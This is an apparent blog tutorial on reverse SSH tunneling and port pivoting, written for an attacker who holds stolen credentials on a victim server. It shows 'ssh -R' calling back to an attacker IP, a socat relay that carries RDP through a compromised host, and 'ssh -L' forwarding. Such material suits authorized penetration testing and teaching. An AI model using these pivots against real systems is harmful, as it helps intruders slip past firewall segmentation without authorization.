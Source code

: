 ```yaml
---
layout: post
title: Reverse SSH Tunneling
date: '2024-02-03 17:25:52 +0100'
categories: [Articles, Tutorials]
tags: [linux, ssh, administration]
---
```



Hello fellow hacker, 

In this article, we will be discovering an interesting topic, `Reverse SSH Tunneling`.

### Scenario

<img src="/../assets/ssh_tun0.png">

You, the attacker, somehow got some user credentials and accessed to the victim's linux server.

Upon doing some enumerations for privilege escalation and turning around in circles, you tried to list open ports on the machine.

```bash
$> ss -tunlp
Netid  State      Recv-Q Send-Q                                   Local Address:Port                                                  Peer Address:Port              
udp    UNCONN     0      0                                                    *:10000                                                            *:*                  
udp    UNCONN     0      0                                                    *:68                                                               *:*                  
tcp    LISTEN     0      128                                                  *:10000                                                            *:*                  
tcp    LISTEN     0      128                                                  *:22                                                               *:*                  
tcp    LISTEN     0      80                                           127.0.0.1:3306                                                             *:*                  
tcp    LISTEN     0      128                                                 :::80                                                              :::*                  
tcp    LISTEN     0      128                                                 :::22                                                              :::*                  
```

You come across an interesting thing ! An open port (10000 in this case) blocked by the firewall.

You investigate further, and you find out that is a website hosted there.
You can't of couse access it from your attacker's machine, since it is blocked by the firewall, nor access it from the victim's machine, since it doesn't have a GUI.

You can't obviously alter the firewall rules.

So, what should you do.. ?

Let’s me introduce you to to `Reverse SSH Tunneling`

Reverse SSH tunneling allows you to connect from the victim machine back to your attacker machine (think of it as a legit reverse shell), binding a specific port.

Here is the command ( on the victim’s machine )

```bash
ssh -R 10000:localhost:10000 yariss@10.11.60.242
```
What this does is you connect back to your attacker’s machine, binding the port 10000 on the victim’s machine, with port 10000 on your attacker’s machine.

Now if you try to access `[localhost:10000](http://localhost:10000)` , it will work !

> One important note, you need `ssh`  enabled on your attacker’s machine.

### Scenario 2

<img src="/../assets/ssh_tun1.png">

Imagine you (machine C) , got some set of credentials, and you want to try them on machine A and B.
you try them on machine A via `RDP`, and it works fine, you enumerate that machine but you find nothing interesting.
you try machine B, but `RDP port` is blocked by a firewall, no one can access that port except from machine A.

How can you rdp from machine C to B ?
You can bind port 3389 of machine B to a port on machine A, let's say `9999`, and RDP from machine C to machine A using port `9999`.
Once you are in, you will notice that you actually accessed machine B !

You can perform this process by utilizing `socat`
```bash
# on machine A
socat TCP4-LISTEN:9999,fork TCP4:<MACHINE_B_IP>:3389
```

Now that you successfully bound the ports, you can access machine B via RDP from machine C.
```bash
# on attacker's machine (C)
xfreerdp /v:Machine_A_IP:9999 /u:username /p:password
```

### SSH Tunnel vs Reverse SSH Tunnel

SSH Tunnel is straight forward, we will just establish a normal ssh connection, but we specify some binding options.

Going back to our previous example, we already have the credentials of the victim’s machine, we can ssh to it, but binding port `10000`  of that machine to our local machine like so :

```bash
ssh -L 10000:127.0.0.1:10000 victim@IP_OF_VICTIM
```



That was it for this article, I hope you learned something!